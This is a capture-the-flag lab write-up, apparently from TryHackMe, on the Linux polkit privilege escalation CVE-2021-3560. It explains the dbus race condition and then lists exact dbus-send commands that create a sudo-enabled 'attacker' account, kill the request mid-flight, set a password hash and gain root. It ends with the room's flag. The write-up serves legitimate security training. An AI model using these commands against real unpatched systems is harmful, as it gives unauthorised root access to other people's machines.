 ```yaml
---
sticker: emoji//1fa81
---
```

## _**Overview**_  
---
In early 2021 a researcher named [Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux polkit utility. Fortunately, different distributions of Linux (and even different versions of the same distributions) use different versions of the software, meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")  

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

For this room we will be focusing specifically on Ubuntu 20.04. Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit:  

![Image demonstrating the installed vulnerable version of polkit](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3e537ed069ff.png)

The original description of this vulnerability can be found in a post written by Kevin Backhouse, [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).  

---

### _**What is Polkit?**_  
----
The logical question to be asking right now is: "What is polkit?"

Polkit is part of the Linux authorization system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can use `pkexec`, instead of `sudo`. As an example, attempting to run the `useradd` command through `pkexec` in a GUI session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In a CLI session, we get a text-based prompt instead:  
![Demonstrating the polkit CLI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b42accbd7f01.png)  

To summarize, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

---

### _**How is Polkit vulnerable?**_  
---
The next logical question is of course: "How can we exploit polkit"?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request before it has been fully processed, we can trick polkit into authorizing the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.  

For the sake of keeping this room relatively light, we won't go too deep into the specifics behind this (although reading the [full article on the vulnerability](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about) is highly recommended). Effectively, the vulnerability can be boiled down to these steps:

```ad-summary
1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.  
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.
```

In short, by destroying the message ID before the `dbus-daemon` has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  

If this doesn't make sense now, hopefully it will after you've had a chance to perform the exploit yourself!


## Exploitation Process
----

We've seen the theory, now let's see it in action!

Let's try to add a new user called `attacker`, with sudo permissions, and a password of `Expl01ted`. Just read this information for now -- you will have time to try it in the next task!  

First, let's look at the dbus messages we'll need to send:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (`string:attacker`) with a description of "Pentester Account" (`string:"Pentester Account"`) and membership of the sudo group set to true (referenced by the`int32:1` flag).

Our second dbus message will set a password for the new account:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'`  



This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify (shown in red), a password hash which we need to generate manually, and a hint ("Ask the pentester")

---

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be _around_ this number.

_**Note:** For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

`openssl passwd -6 Expl01ted`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/12e11c378d8d.png)

With a hop, su, and a `sudo -s`, we have root!


![](../images/Pasted%20image%2020250107154644.png)

We have root flag, we must submit it to the flag system and we will get our normal flag:

![](../images/Pasted%20image%2020250107154738.png)

So, our flag would be: `THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}`